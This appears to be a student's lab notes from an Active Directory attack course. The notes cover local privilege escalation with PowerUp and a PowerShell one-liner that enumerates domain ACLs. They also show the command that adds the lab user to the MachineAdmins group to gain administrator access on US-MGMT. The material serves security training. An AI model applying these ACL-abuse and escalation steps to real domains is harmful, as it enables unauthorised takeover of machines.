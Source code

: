 # Content Lab5:

![Lab5](lab5.png) 

| computer | user |
| ------- | ------ |
| student17$ | studentuser17 |
| student17$ | Administrator |
| US-MGMT | studentuser17 |

```
  - Exploit a service on studentx and elevate privileges to local administrator.
  - Identify a machine in the domain where studentuserx has local administrative access due to group membership.
```

The first step is escalate privileges on local machine:
```
  - Review the services and abusse privileges with powerup
```

The second step is evaluate all ACLs over the us.techcorp.local domain for the studentuser17 :
```
 - Include the userstudent17 on machineAdmins groups
 - The machineadmins group allow the users access to US-MGMT such administrator
```



![Check Administrator access](Check_admin_access.png)


Evaluate All ACLs for specific data:

```
Get-DomainObjectAcl | select -expandProperty ObjectDN  | Get-Unique | % {$_;Get-Acl AD:\$_  | select -ExpandProperty Access | ?{$_.IdentityReference -like '*Managers*'}}

```
```
OU=Mgmt,DC=us,DC=techcorp,DC=local
...
CN=US-MGMT,OU=Mgmt,DC=us,DC=techcorp,DC=local
...
CN=Windows Virtual Machine,CN=US-MGMT,OU=Mgmt,DC=us,DC=techcorp,DC=local
...
CN=MachineAdmins,OU=Mgmt,DC=us,DC=techcorp,DC=local
...
```

```
Reviewed ACLS: 
The Machineadmins Group CN=MachineAdmins,OU=Mgmt,DC=us,DC=techcorp,DC=local can manage al machines of MGMT

Get-ADGroup -Identity MachineAdmins -Properties Description | select name, Description

name          Description
----          -----------
MachineAdmins Group to manage machines of the Mgmt OU
```
It's include the US-MGMT. And studentuser17 can Modified MachinesAdmins due to ACLs, so we can include the studentuser17 on Machineadmins group

```
 Add-ADGroupMember -Identity MachineAdmins -Members studentuser17 -Verbose
VERBOSE: Performing the operation "Set" on target "CN=MachineAdmins,OU=Mgmt,DC=us,DC=techcorp,DC=local".
```
Logoff and entry access to the target machine due to group permissions.
